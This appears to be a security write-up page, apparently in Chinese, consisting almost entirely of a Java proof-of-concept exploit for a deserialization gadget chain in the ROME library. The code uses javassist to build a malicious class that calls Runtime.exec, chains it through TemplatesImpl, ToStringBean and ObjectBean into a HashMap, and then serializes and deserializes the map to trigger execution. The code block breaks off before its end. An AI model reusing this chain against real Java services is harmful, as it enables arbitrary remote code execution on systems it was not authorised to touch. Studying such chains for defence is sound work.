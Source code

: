 ### EXP

```bash
package RomeSec;

import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class ObjectBeanExp {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload = classPool.makeClass("dddd");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = payload.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        // 创建ObjectBean对象
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        setFiled(objectBean,"_toStringBean", null);
        setFiled(objectBean, "_cloneableBean", null);

        // 创建hashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(objectBean, "aaaa");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ObjectBean.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("ObjectBean.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
```